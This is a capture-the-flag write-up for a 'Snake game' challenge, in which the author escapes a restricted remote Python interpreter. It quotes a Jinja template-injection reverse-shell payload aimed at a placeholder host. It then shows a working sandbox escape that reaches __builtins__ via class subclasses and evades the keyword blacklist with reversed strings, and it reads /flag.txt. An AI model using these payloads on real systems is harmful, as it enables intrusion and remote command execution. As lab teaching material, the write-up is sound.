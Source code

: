 Miscellaneous: Snake game
======================================

## Task

Hi, TCC-CSIRT analyst,

snakes are wonderful creatures, and everyone loves them. Many people enjoy playing with snakes and find them fascinating companions. One on them lives on snakegame.leisure.tcc on port 23001/TCP.

## Solution

Let's open mentioned host/port with telnet:

```
# telnet snakegame.leisure.tcc 23001
Trying 10.99.24.102...
Connected to snakegame.leisure.tcc.
Escape character is '^]'.
Hello, I can only speak Python, show me your code.
```

So, we are dealing with python interpret. But pretty specific python interpret. For example, this part works:

```
Enter your code : ["a", "b"]
['a', 'b']
```

But a lot of things doesn't. When trying some stuff we find out two things: 1) a lot of things is deleted from namespace. For example globals(), locals() and similar, normally working in python interpret, returns error that name is not defined. And 2) there is probably some check on typed source code with blacklisted words. So if in code is string on blacklist it won't work. Blacklist includes "+", import, os and a lot of words which you want to type :-)

So what to do... In some challenge in one of The Catch in past years was nice Flask blogging application. It was possible to create blog posts which was rendered with Jinja templates. That time I've spent a lot of time with exploiting inputs to templates to do something... None of this was working, I didn't solve that challenge and correct solution has to do nothing with that blog application. But until now I've rembered very nice Jinja reverse shell exploit which I've found that thay. It looks like this:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"x.x.x.x\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

So now I can try if it can work here:

```
Enter your code : ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>, <class 'builtin_function_or_method'>, <class 'callable_iterator'>, <class 'PyCapsule'>, <class 'cell'>, <class 'classmethod_descriptor'>, <class 'classmethod'>, <class 'code'>, <class 'complex'>, <class '_contextvars.Token'>, <class '_contextvars.ContextVar'>, <class '_contextvars.Context'>, <class 'coroutine'>, <class 'dict_items'>, <class 'dict_itemiterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_keys'>, <class 'mappingproxy'>, <class 'dict_reverseitemiterator'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_values'>, <class 'dict'>, <class 'ellipsis'>, <class 'enumerate'>, <class 'filter'>, <class 'float'>, <class 'frame'>, <class 'frozenset'>, <class 'function'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'instancemethod'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'list'>, <class 'longrange_iterator'>, <class 'int'>, <class 'map'>, <class 'member_descriptor'>, <class 'memoryview'>, <class 'method_descriptor'>, <class 'method'>, <class 'moduledef'>, <class 'module'>, <class 'odict_iterator'>, <class 'pickle.PickleBuffer'>, <class 'property'>, <class 'range_iterator'>, <class 'range'>, <class 'reversed'>, <class 'symtable entry'>, <class 'iterator'>, <class 'set_iterator'>, <class 'set'>, <class 'slice'>, <class 'staticmethod'>, <class 'stderrprinter'>, <class 'super'>, <class 'traceback'>, <class 'tuple_iterator'>, <class 'tuple'>, <class 'str_iterator'>, <class 'str'>, <class 'wrapper_descriptor'>, <class 'zip'>, <class 'types.GenericAlias'>, <class 'anext_awaitable'>, <class 'async_generator_asend'>, <class 'async_generator_athrow'>, <class 'async_generator_wrapped_value'>, <class 'Token.MISSING'>, <class 'coroutine_wrapper'>, <class 'generic_alias_iterator'>, <class 'items'>, <class 'keys'>, <class 'values'>, <class 'hamt_array_node'>, <class 'hamt_bitmap_node'>, <class 'hamt_collision_node'>, <class 'hamt'>, <class 'InterpreterID'>, <class 'managedbuffer'>, <class 'memory_iterator'>, <class 'method-wrapper'>, <class 'types.SimpleNamespace'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'str_ascii_iterator'>, <class 'types.UnionType'>, <class 'weakref.CallableProxyType'>, <class 'weakref.ProxyType'>, <class 'weakref.ReferenceType'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_io._IOBase'>, <class '_io.IncrementalNewlineDecoder'>, <class '_io._BytesIOBuffer'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external.NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_abc._abc_data'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'collections.abc.Iterable'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class '_distutils_hack._TrivialRe'>, <class '_distutils_hack.DistutilsMetaFinder'>, <class '_distutils_hack.shim'>, <class 'types.DynamicClassAttribute'>, <class 'types._GeneratorWrapper'>, <class 'operator.attrgetter'>, <class 'operator.itemgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.pairwise'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class '_collections._tuplegetter'>, <class 'collections._Link'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'functools.KeyWrapper'>, <class 'functools._lru_list_elem'>, <class 'functools.partialmethod'>, <class 'functools.singledispatchmethod'>, <class 'functools.cached_property'>, <class 'enum.nonmember'>, <class 'enum.member'>, <class 'enum._auto_null'>, <class 'enum.auto'>, <class 'enum._proto_member'>, <enum 'Enum'>, <class 'enum.verify'>, <class 're.Pattern'>, <class 're.Match'>, <class '_sre.SRE_Scanner'>, <class 're._parser.State'>, <class 're._parser.SubPattern'>, <class 're._parser.Tokenizer'>, <class 're.RegexFlag'>, <class 're.Scanner'>, <class 'string.Template'>, <class 'string.Formatter'>]
```

Ok, that is definitely something. Mentioned code won't work because that modul isn't on our interpret. So in the listed modules above we have to find some different which have reference to __builtins__. Playing with hasattr function on working interpret and comparing with these subclasses it seemd that Iterable will be good candidate. So we can for example use similar approach to list files on filesystem. With one difference - builtins, import and os are on blacklist. But with this type of code we use them as string. If we type them in reverse (for example __tropmi__ intead of import) it passes the blacklist check. And we can use [::-1] for reversing string. So, this code for listing / directory works:

```
Enter your code : [i for i in ().__class__.__base__.__subclasses__() if "Iterable" == i.__name__][0].__iter__.__globals__["__snitliub__"[::-1]]["__tropmi__"[::-1]]("so"[::-1]).listdir("/")
['root', 'sbin', 'proc', 'media', 'sys', 'home', 'tmp', 'srv', 'usr', 'mnt', 'etc', 'dev', 'boot', 'lib64', 'lib', 'run', 'bin', 'var', 'opt', 'flag.txt', '.dockerenv', 'entrypoint.sh']
```

Almost there, now we just have to read file /flag.txt. So let's try this:

```
Enter your code : [i for i in ().__class__.__base__.__subclasses__() if "Iterable" == i.__name__][0].__iter__.__globals__["__snitliub__"[::-1]]["nepo"[::-1]]("/flag.txt").read()
FLAG{lY4D-GJaQ-VUks-PNQd}
```
